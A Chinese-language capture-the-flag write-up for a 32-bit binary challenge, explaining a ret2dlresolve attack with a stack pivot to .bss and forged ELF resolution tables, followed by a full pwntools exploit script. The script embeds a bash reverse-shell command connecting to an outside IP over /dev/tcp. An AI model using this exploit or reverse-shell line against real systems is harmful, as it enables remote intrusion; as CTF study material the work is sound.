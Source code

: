 # leve12-ret2dlresolve WP

### 分析:
1. 看wrapper函数，其作用为
* 限制输入为0x100,且只接收一次
* 屏蔽输出和错误输出，即程序通过wrapper启动后只能输入，接收不到程序的返回

2. 既然不能接收程序返回，就无法通过交互,直接拿到shell，但可以使用反弹shell方法，使用自己的公网IP连接shell

3. 下面通过构造ROP chain, 在.bss上伪造字符串表、符号表、重定位表后，ret2dlresolve。其中伪造的字符串为"system\x00",参数传递反弹shell字符串的地址

### 操作
1. 由于第一次输入栈上只能控0x14个字节(0x40-0x28-4), 所以无法在栈上直接排列ROP链，需要将栈挪到.bss段上： 覆盖ebp时，将新esp写入，read函数返回到leave ret的位置（leave===mov esp,ebp; pop ebp),后面就可以在.bss上输入新栈。 新栈上的部分调用被伪造的函数，将原来的重定位表的index换成fake重定位表的
2. 在栈后面依次排列几个伪造的表。



```exp
#! /usr/bin/env python
# -*- coding: utf-8 -*-
#
# Copyright © 2018 vam <jpwan21@gmail.com>

from pwn import *
context.log_level="debug"
pwn_file="./level12"
elf=ELF(pwn_file)

if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("pwn.sixstars.team", 22012)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    #log.debug("stack add:0x%x"%stack_add)
    #log.debug("heap add:0x%x"%heap_add)
    #log.debug("libc add:0x%x"%libc.add)
    pause()

rebound_shell = 'bash -c \"/bin/bash -i > /dev/tcp/118.89.101.128/1234 0<&1 2<&1\"'

'''
the basic nums
'''
read_plt = 0x8048300
jump_alarm_plt = 0x804831b #use to jump 
plt_jump=0x80482F0
dlresolve_pos = 0x804A008
fd = 0
nbytes = 0x40
leave_ret_pos = 0x8048455

bss_start =0x804a000
bss_use = bss_start + 0x500
bss_stack = bss_use-0x14  #new_stack

link_map_addr =  0x8049F14
str_table_addr = 0x804822C
sym_table_addr = 0x80481CC
rel_table_addr = 0x80482B0
got_table_addr = 0x804A000

'''
what you want to fake
'''
fake_str_pos = bss_use 
fake_str = "system\x00" + rebound_shell + "\x00"
rebound_shell_addr = fake_str_pos + 7
str_off = fake_str_pos - str_table_addr

# pudding to 0x10
fake_sym_addr = bss_use + 0x4c
fake_sym = p32(str_off) + chr(0)*0x8 +chr(0x12) + chr(0)*3

fake_rel_addr =  bss_use + 0x5c
fake_rel_index = fake_rel_addr - rel_table_addr # yes it is the relative position
fake_rel = p32(0x804A010) + p32( (fake_sym_addr-sym_table_addr)*0x10 +7)

'''
payload on stack
'''
payload = 'a'*0x28 + p32(bss_stack)
payload += p32(read_plt)+p32(leave_ret_pos)+p32(fd)+p32(bss_stack)+p32(0xb0)

'''
payload on bss_stack
'''
payload += p32(0)  
payload += p32(jump_alarm_plt) +  p32(fake_rel_index)+p32(0) + p32(rebound_shell_addr) 
'''
payload on .bss to fake
'''
payload += fake_str + 'a'*(0x4c-len(fake_str))
payload += fake_sym + fake_rel

debug()
r.sendline(payload)
r.interactive()

```